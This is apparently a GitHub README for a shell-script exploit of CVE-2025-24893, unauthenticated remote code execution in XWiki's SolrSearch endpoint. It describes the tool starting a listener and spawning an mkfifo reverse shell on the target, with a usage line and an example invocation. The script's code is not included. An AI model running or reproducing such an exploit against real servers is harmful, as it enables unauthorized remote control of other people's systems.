

# CVE-2025-24893 Exploit

[CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-24893)

> XWiki Platform is a generic wiki platform offering runtime services for applications built on top of it. Any guest can perform arbitrary remote code execution through a request to `SolrSearch`. This impacts the confidentiality, integrity and availability of the whole XWiki installation.

## PoC

The exploit automatically starts a listener and spawns a reverse shell with `mkfifo` on the target.

Usage: `CVE-2025-24893.sh <TARGET> <LHOST> <LPORT>`

Example: `CVE-2025-24893.sh https://example.local 10.10.10.10 4444`